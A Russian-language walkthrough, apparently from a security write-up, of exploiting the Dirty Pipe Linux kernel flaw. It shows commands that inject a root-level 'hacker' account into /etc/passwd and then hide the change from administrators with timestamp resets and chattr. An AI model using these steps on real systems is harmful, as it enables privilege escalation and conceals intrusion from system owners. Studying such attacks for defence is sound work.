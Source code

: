 **Механизм:**  
1. **Заполнение pipe**:  
   - Создаем 8 буферов (по размеру страницы)  
   - Заполняем их данными ('A')  
   - Цель: занять все буферы pipe  
2. **Очистка одного буфера**:  
   - Чтение одной страницы освобождает один буфер  
   - Этот буфер будет использован для слияния  
3. **Установка флага**:  
   - Через `splice()` данные направляются из файла в pipe  
   - При этом в освобожденном буфере устанавливается `PIPE_BUF_FLAG_CAN_MERGE`  
4. **Перезапись данных**:  
   - Новые данные "сливаются" в существующую страницу кэша файла  
   - Происходит модификация файла на диске  

---

#### [TA0002] – Execution (Выполнение)
> Добавление пользователя в /etc/passwd
 
**Шаг 1: Запуск эксплоита**  
```bash
# Генерируем хэш пароля с солью (пароль: 123456)
openssl passwd -6 -salt xyz 123456  # $6$xyz$d5rAS...snip...X1

# Запускаем эксплоит (получение root-доступа через Dirty Pipe)
./dirtypipe /etc/passwd 1 'hacker:$6$xyz$d5rAS...snip...X1:0:0::/root:/bin/bash\n'

# Проверяем
tail -n1 /etc/passwd  # hacker:$6$xyz$d5rAS...snip...X1:0:0::/root:/bin/bash

# Получаем root
su - hacker
Password: 123456
```

**Шаг 2: Проверка привилегий:**  
```bash
whoami  # root
id  # uid=0(hacker) gid=0(root) groups=0(root)

# Проверка целостности файла
ls -l /etc/passwd
# Вывод: 
# -rw-r--r-- 1 root root ... /etc/passwd (файл корректный!)
```

---

#### [TA0003] – Persistence (Закрепление)
**Шаг 1: Скрытие изменений в /etc/passwd**
```bash
# Восстанавливаем оригинальное время изменения файла
# изменяет дату модификации файла на оригинальную (чтобы администратор не заметил изменений)
touch -d "@$(stat -c '%Y' /etc/passwd)" /etc/passwd

# Устанавливаем атрибут "только для чтения"
# делает файл неизменяемым (даже root не сможет его изменить без снятия атрибута)
chattr +i /etc/passwd
```
